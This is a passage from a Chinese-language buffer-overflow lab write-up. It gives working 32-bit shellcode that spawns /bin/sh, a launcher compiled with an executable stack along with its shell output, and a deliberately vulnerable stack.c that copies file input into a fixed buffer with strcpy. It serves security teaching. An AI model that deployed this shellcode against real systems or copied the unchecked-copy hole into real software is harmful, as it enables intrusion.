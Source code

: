 ```c
#else
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
#endif
;

int main(int argc, char **argv)
{
   char code[500];

   strcpy(code, shellcode);
   int (*func)() = (int(*)())code;

   func();
   return 1;
}
```

将`call_shellcode.c`编译运行，可以发现会得到shell：

```shell
❯ make
gcc -m32 -z execstack -o a32.out call_shellcode.c
gcc -z execstack -o a64.out call_shellcode.c
❯ ./a32.out
$ ls                                                                           
Makefile  a32.out  a64.out  call_shellcode.c
$ exit                                                                         
❯ ./a64.out
$ ls                                                                           
Makefile  a32.out  a64.out  call_shellcode.c
$ exit                   
```

### Task2：查看漏洞程序

`stack.c`：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
/* Changing this size will change the layout of the stack.
* Instructors can change this value each year, so students
* won’t be able to use the solutions from the past. */
#ifndef BUF_SIZE
#define BUF_SIZE 100
#endif
int bof(char *str)
{
char buffer[BUF_SIZE];
/* The following statement has a buffer overflow problem */
strcpy(buffer, str);
return 1;
}
int main(int argc, char **argv)
{
char str[517];
FILE *badfile;
badfile = fopen("badfile", "r");
fread(str, sizeof(char), 517, badfile);
bof(str);
printf("Returned Properly\n");
return 1;
```